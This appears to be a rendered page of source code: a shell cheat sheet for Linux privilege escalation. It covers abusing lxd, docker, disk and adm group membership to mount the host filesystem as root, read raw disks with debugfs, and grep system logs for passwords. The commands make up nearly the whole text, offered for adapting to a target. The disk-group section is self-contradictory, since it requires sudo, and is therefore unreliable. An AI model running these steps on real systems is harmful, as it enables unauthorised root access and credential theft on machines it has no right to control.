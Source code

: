 
```sh
# LXD/LXC Privilege Escalation

# 1. Check group membership
id

# 2. (If necessary) Download Alpine image
wget <alpine_image_url>
unzip alpine.zip
cd 64-bit\ Alpine/

# 3. (If necessary) Initialize LXD (if not already initialized)
lxd init
(Choose defaults or customize as needed)

# 4. Import Alpine image
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

# 5. Create privileged container
lxc init alpine r00t -c security.privileged=true

# 6. Mount host filesystem
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

# 7. Start container and get shell
lxc start r00t
lxc exec r00t /bin/sh

# 8. Access host as root
cd /mnt/root/root
id # Should show root privileges

# Docker Privilege Escalation

# 1. Check group membership
id

# 2. Run privileged Docker container
docker run -v /root:/mnt -it ubuntu

# 3. Access host's root directory
cd /mnt
ls -la # View contents of host's /root

# Disk Group Privilege Escalation

# 1. Check group membership
id

# 2. Identify disk device (e.g., /dev/sda1)
lsblk

# 3. Use debugfs (requires root or sudo for initial mount)
sudo debugfs -w /dev/sda1

# 4. (Inside debugfs) Access filesystem
ls
cat <file_path>
etc.
q (to quit debugfs)

# ADM Group Information Disclosure

# 1. Check group membership
id

# 2. Read log files
ls -la /var/log/
cat /var/log/syslog
cat /var/log/auth.log
cat /var/log/apache2/access.log # or nginx logs
# ... and other relevant log files

# Example of reading a specific log file for a specific string
grep "password" /var/log/auth.log
```


### **Important Notes:**

- **LXD/LXC:**
    - You might need to adjust the image name and path based on your setup.
    - If `lxd init` fails because of bridge configuration, you might need root privileges to configure the bridge.
- **Docker:**
    - Ensure Docker is installed and running.
    - The `-v` option mounts a volume. Adjust the source and destination paths as needed.
- **Disk:**
    - `debugfs` requires caution. Incorrect usage can damage the filesystem.
    - You might need root or sudo privileges to initially mount the device.
- **ADM:**
    - Log files can contain sensitive information. Handle them responsibly.
    - Log locations can vary based on installed services.
- **GTFObins:**
    - Remember to check GTFObins for updated information and alternative methods.
- **Adaptation:**
    - These commands are a starting point. Adapt them to your specific target environment.
- **Security:**
    - Use these techniques responsibly and ethically. Only use them on systems you have explicit permission to test.